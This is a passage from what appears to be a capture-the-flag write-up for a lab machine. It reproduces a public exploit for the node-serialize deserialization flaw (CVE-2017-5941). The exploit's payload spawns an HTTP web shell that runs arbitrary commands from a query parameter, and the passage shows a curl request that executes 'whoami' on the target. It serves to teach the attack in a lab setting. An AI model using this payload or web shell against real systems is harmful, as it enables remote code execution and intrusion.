 ```bash
root@kali:~$ searchsploit -m nodejs/webapps/50036.js
```

If we analyze the exploit code, we need to inject our payload into the cookie value to trigger the execution of commands.

```bash
root@kali:~$ cat 50036.js 
# Exploit Title: Node.JS - 'node-serialize' Remote Code Execution (3)
# Date: 17.06.2021
# Exploit Author: Beren Kuday GORUN
# Vendor Homepage: https://github.com/luin/serialize
# Software Link: https://github.com/luin/serialize
# Version: 0.0.4
# Tested on: Windows & Ubuntu
# CVE : 2017-5941

var serialize = require('node-serialize');
var payload = {
    "webShell" : "_$$ND_FUNC$$_function(){const http = require('http'); const url = require('url'); const ps  = require('child_process'); http.createServer(function (req, res) { var queryObject = url.parse(req.url,true).query; var cmd = queryObject['cmd']; try { ps.exec(cmd, function(error, stdout, stderr) { res.end(stdout); }); } catch (error) { return; }}).listen(443); }()"
    }
serialize.unserialize(serialize.serialize(payload))

/*
# after being exploited

┌──(root@kali)-[/home/kali]
└─# curl http://10.0.2.4:443?cmd=whoami
nodeadmin
```

We can replicate the exploitation process manually, first we intercept the request with burp, right click and **Send to Repeater**.

![](/assets/images/templeofdoom/screenshot-3.png)
